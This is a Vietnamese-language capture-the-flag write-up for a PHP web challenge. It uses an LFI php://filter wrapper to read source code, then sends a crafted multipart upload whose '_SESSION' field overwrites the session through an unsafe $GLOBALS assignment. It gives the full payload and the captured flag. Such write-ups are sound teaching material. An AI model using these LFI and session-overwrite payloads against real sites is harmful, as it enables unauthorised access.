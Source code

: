 # Opening
Bài này không hề khó nhưng mọi người phải tinh ý 1 chút.

# Step 1: GET SOURCE
Đầu tiên lấy source của các trang home, upload, GiFt2 bằng LFI kết hợp với php wrapper:
php://filter/convert.base64-encode/resource=xxx

# Step 2: Know the vul
Ban đầu mình nghĩ chắc bài này là upload insecure file tuy nhiên đọc code lại không hề thấy lỗ nào để mà đục. Đọc kỹ hơn nữa mình nhân ra có một đoạn code rất vô lý nằm trong hàm `Upload_Single_File`.
```global $target_file;
	foreach ($_FILES as $key => $value)
	{
		$GLOBALS[$key] = $value;
	}
  ```
Đoạn này dùng để gán giá trị của một phần tử của biến $GLOBAL mà theo đúng cách hoạt động của nó sẽ là `$GLOBAL['filename']='xxx.png'`. Tuy nhiên ở đây giá trị đầu vào không hề được kiểm soát nên ta có thể thay đổi giá trị của những phần tử sẵn có bên trong biến $GLOBAL đặc biệt trong đó có $_SESSION. Thêm nữa tại home.php có đoạn gán session như sau `><?php $_SESSION['name']="children";?>`. Cộng thêm việc đọc hiểu mô tả của đề thì mình chắc chắn giá trị này phải đổi thành Nicolaus

# Step 3: Exploit
Nhớ đoạn code vô lý chứ nó nằm trước đoạn kiểm tra upload file nên dù có upload file thành công hay không cũng không quan trọng. so let's begin:
Để thay đổi được giá trị bên trong $_SESSION thì chúng ta cần một đoạn như này `$GLOBAL['_SESSION']='abcxyz'` vậy nên payload se trông như sau:
```
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="target_file"; filename="123"
Content-Type: text/plain

123
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="_SESSION"; filename="Nikolaus"
Content-Type: text/plain

xxx
-----------------------------180251837238646225392010562464
Content-Disposition: form-data; name="submit"

Upload
-----------------------------180251837238646225392010562464--
'''
```
và đây là kết quả: 
```
PS C:\Users\hentai> & python c:/Users/hentai/OneDrive/Desktop/CTF/PIS/noelv3/santa3.py
[+] Gift3:ChristCTF{merry_christmas_2020!!!h4d35w!7h10v3} 
PS C:\Users\hentai> 
```

# thank HADES với bài chốt khá là hay  shout-out for hades
